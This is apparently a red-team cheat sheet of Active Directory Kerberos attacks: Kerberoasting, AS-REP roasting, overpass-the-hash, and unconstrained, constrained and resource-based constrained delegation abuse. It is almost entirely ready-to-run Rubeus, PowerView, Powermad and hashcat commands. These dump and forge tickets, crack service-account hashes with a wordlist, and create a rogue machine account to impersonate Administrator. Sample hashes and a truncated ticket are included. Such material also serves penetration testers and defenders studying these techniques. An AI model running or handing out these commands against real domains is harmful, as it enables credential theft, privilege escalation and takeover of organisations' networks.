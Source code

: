 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe asreproast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be /nowrap
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:John /msdsspn:cifs/FS01.insomnia.io /ticket: /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Resource-based Constrained Delegation
service administrators/owners can configure which domain accounts are allowed to delegate to them.
```
Import-Module .\Powermad.psd1
New-MachineAccount -Domain insomnia.io -DomainController 192.168.100.1 -MachineAccount Evil_genius -Password (ConvertTo-SecureString 'Password!@#' -AsPlainText -Force) -Verbose
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount Evil_genius$ -Verbose
Rubeus.exe s4u /user:Evil_genius$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
Enter-PSSession -ComputerName ops-sqlsrvone
```

